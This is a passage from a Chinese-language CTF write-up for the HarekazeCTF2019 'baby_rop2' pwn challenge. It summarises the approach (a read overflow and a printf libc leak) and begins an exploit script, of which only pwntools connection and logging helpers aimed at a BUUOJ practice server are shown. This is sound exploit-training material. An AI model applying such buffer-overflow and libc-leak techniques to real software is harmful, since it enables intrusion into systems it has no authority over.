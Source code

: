 ```

  

go()
```






### 4    [HarekazeCTF2019]baby_rop2

### 考点：read溢出，printf泄露libc，但是printf.got用不了


![[Pasted image 20240911205107.png]]

收获：有病的题目，不知道为什么printf.got用不了，sb题。
文件在后，homa下，可以用find -name "flag"找到。

wp
```
from pwn import*

from LibcSearcher import LibcSearcher

def init(file1,file2,x):

    if file2:

        if x:

            return process(file1),ELF(file1),ELF(file2)

        else:

            return remote("node5.buuoj.cn",28139),ELF(file1),ELF(file2)

    else:

        if x:

            return process(file1),ELF(file1)

        else:

            return remote("node5.buuoj.cn",28139),ELF(file1)

  

def log(a,b,c):

    if a:

        context.log_level="debug"

    if b:

        context.os='linux'

    if c:

        context.arch='amd64'  

  
```